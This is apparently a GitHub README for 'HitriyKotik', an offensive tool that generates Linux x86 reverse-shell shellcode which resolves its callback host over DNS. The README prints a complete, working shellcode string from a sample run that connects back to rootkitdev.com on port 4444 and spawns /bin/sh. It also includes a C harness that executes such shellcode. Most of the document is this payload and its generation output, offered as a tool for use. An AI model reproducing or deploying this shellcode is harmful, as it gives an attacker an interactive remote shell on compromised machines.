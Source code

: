 # KotikDNSPayload
ReverseDnsPayload -- The First and Only In The World! 

## Currenty working on uploading this to Metapsloit Stay Tuned!




![xitriykotik](https://github.com/SourceCodeDeleted/HitriyKotik/blob/master/HitriyKotik.png)


```
Hitriy Kotik (Tricky Cat) is my name and I like dealing in shellcode. I have something special in the market place for you! 

 !!!!! A Reverse DNS TCP Payload For Linux !!!!! 

 Tell Me a few things and I will generate the shellcode for you!
[+] Tell Me The Domain You wish To Connect Back To : rootkitdev.com
[+] Tell Me The Port   You Wish To Connect Back To : 4444
[+] I Am Making Your PayLoad Right Now....
[+] ASM Created Successfully....
[+] Nasm Compiling........
[+] Objdumping........


\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x6a\x02\x6a\x02\x89\xe1\xcd\x80\x50\x68\x08\x08\x08\x08\x31\xd2\xb6\x35\x66\x52\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x31\xc0\xb0\x66\x80\xc3\x02\xcd\x80\x31\xc0\xb0\x66\x6a\x00\x68\x00\x01\x00\x01\x68\x63\x6f\x6d\x00\x68\x64\x65\x76\x03\x68\x74\x6b\x69\x74\x68\x0a\x72\x6f\x6f\x6a\x00\x68\x00\x01\x00\x00\x68\xaa\xaa\x01\x00\x89\xe2\x31\xc9\x51\x6a\x40\x52\x56\x89\xe1\x31\xdb\xb3\x09\xcd\x80\xb8\x03\x00\x00\x00\xbb\x03\x00\x00\x00\x89\xe1\xba\x64\x00\x00\x00\xcd\x80\x01\xc4\x83\xec\x04\x8b\x04\x24\x50\x31\xd2\x6a\x66\x58\x6a\x01\x5b\x52\x53\x5a\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x6a\x03\x5b\x52\x66\x68\x5c\x11\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\x89\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xbc\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80


```



# To Run:
simply run ...
```
python hitriykotik.py 
```

and you'll be greeted by the Cat above and he will ask you a couple of questions and use nasm and objdump to give you yourshellcode.

# Requirements

Linux is desireable, but not required.
1. python3
2. nasm
3. objectdump


# For Testing:
Make a C file and compile using
```
gcc -m32 test.c -o test
``` 
```
#include<stdio.h>
#include<string.h>

const char shellcode[] =  "\0x00\YOUR\SHELL\CODE\0x00\";



int main(){
    int (*ret)() = (int(*)())shellcode;
    ret();
}


```

# Known Issues:
I am reading from a socket For the DNS response. Read will wait until the socket has a buffer to read from. This means that if you receive no DNS response , your program will wait indefinitley. 

### Stay Secure My Friends!
